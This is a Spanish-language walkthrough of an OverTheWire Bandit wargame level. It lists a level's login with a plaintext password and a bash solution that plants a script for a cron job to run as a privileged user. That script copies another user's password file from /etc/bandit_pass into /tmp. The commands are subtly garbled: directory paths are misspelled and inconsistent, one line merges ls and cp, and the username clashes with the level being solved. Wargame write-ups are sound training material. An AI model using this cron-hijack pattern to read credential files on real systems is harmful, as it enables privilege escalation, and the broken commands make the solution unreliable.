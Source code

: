**Bandit **

**Objetivo**
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...

**Datos de acceso**
server: **bandit.labs.overthewire.org** 
usuario: **bandit19**
contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
**Solucion**
```bash
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.ssh 

mkdir /tem/sandiaEs
cd /temp/sandiaEs
echo "cat /etc/bandit_pass/bandit24 > /tmp/sandiaES/password" > sandiaEs.sh
chmod 777 sandiaEs.sh
touch password 
chmod 666 password
ls -lacp sandiaEs.sh /var/spool/bandit24/foo
date
date
ls -la
cat password
```
**Notas adicionales** 

**Referencias** 